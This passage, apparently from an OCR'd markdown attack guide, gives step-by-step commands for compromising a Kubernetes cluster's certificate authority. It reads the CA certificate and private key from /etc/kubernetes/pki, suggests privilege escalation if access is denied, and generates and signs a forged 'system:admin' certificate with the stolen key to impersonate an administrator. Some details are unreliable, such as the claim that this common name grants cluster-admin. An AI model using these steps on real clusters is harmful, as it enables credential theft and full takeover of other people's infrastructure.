 4.  **Read the CA Certificate (Public Key):**

    ```bash
    cat /etc/kubernetes/pki/ca.crt
    ```

    *   **Explanation:**  Display the contents of the `ca.crt` file. This is the public key of the CA.
    *   **Expected Output:**  The contents of the certificate in PEM format.
    *   **Why:**  To confirm the presence of the certificate and potentially extract information such as the issuer. This public key is required for the exploitation.

5.  **Attempt to Read the CA Key (Private Key):**

    ```bash
    cat /etc/kubernetes/pki/ca.key
    ```

    *   **Explanation:**  Attempt to display the contents of the `ca.key` file.
    *   **Expected Output:**  If successful (i.e., the user has sufficient permissions), the contents of the key file in PEM format. If unsuccessful, a "Permission denied" error.
    *   **Why:** To confirm the successful retrieval of the private key, a critical step for CA compromise.

    *   **If Permission Denied:** Attempt privilege escalation methods, such as exploiting known vulnerabilities on the node, weak sudo configurations, or leveraging service accounts if in a compromised container on the control plane.

### Phase 2: Exploitation (Creating a malicious certificate and impersonating a user)

1.  **Generate a Certificate Signing Request (CSR) for an Administrator User:** (Assuming you have the `ca.key` and `ca.crt` available locally after transferring from the compromised control plane node)

    ```bash
    openssl req -new -key ca.key -out admin.csr -subj "/CN=system:admin"
    ```

    *   **Explanation:**  Generates a new CSR for a user named `system:admin`, which has cluster-admin privileges in most Kubernetes setups. Replace `ca.key` with the actual path to the CA key file.
    *   **Expected Output:** The `admin.csr` file will be created.
    *   **Why:** To request a certificate that grants administrator privileges.
    *   **Variation:** You could choose a different user or group to impersonate based on the target access level.

2.  **Sign the CSR using the CA Private Key:**

    ```bash
    openssl x509 -req -in admin.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out admin.crt -days 365
    ```

    *   **Explanation:**  Signs the CSR with the CA's private key (`ca.key`) and certificate (`ca.crt`). This creates a valid certificate (`admin.crt`) that the Kubernetes API server will trust. `-CAcreateserial` creates a serial file needed for signing.
    *   **Expected Output:**  The `admin.crt` file will be created.
    *   **Why:**  Creates a trusted certificate that can be used to authenticate as the administrator user. The certificate is valid for 365 days.
